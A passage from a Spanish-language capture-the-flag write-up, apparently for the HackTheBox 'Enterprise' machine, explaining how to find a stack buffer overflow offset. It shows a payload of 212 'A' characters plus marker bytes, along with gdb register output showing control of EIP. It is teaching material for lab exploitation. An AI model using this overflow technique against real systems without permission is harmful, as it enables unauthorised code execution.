 En la posición 212 encuentra los caracteres **daac**, pues generemos **212** A's **4** B's y **4** C's para mostrar mejor esto y enviémoslas ;)

```py
...
payload = "A"*212·                                                                                                                                                                         payload += "B"*4 + "C"*4
...
```

```bash
...
*EAX  0xfe
*EBX  0x41414141 ('AAAA')
 ECX  0x0
 EDX  0x0
*EDI  0xf7f20000 (_GLOBAL_OFFSET_TABLE_) ◂— insb   byte ptr es:[edi], dx /* 0x1e4d6c */
*ESI  0xf7f20000 (_GLOBAL_OFFSET_TABLE_) ◂— insb   byte ptr es:[edi], dx /* 0x1e4d6c */
*EBP  0x41414141 ('AAAA')
*ESP  0xffdffc70 ◂— 'CCCC'
*EIP  0x42424242 ('BBBB')
...
```

Bien, tenemos que el registro que apunta a la base de la pila ([ebp](https://es.stackoverflow.com/questions/39686/en-que-se-usan-los-registros-ebp-edi-esi#answer-40119), "este registro mantiene la dirección del origen de la pila"), contiene hasta la posición **212**, despues empezaría el registro **eip** (que es el que nos interesa), conteniendo las **B**'s, por lo tanto en esa posición debe ir la dirección a la que queremos ir... Y las **C** estarían haciendo parte del stack, que es donde iría nuestro shellcode.

...

También podemos entenderlo asi: 

(Enviamos 200 **C**'s y en **gdb** le indicamos que nos muestre 80 direcciones, pero que empiece a contar 50 antes de llegar al **esp** (esto para poder ver el contenido del **ebp** y el **eip**))

* [Buffer overflow y Shellcode](https://www.ellaberintodefalken.com/2013/07/vulnerabilidades-shellcode-buffer-overflow.html).

![112bash_gdb_content_esp_eip_ebp](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112bash_gdb_content_esp_eip_ebp.png)
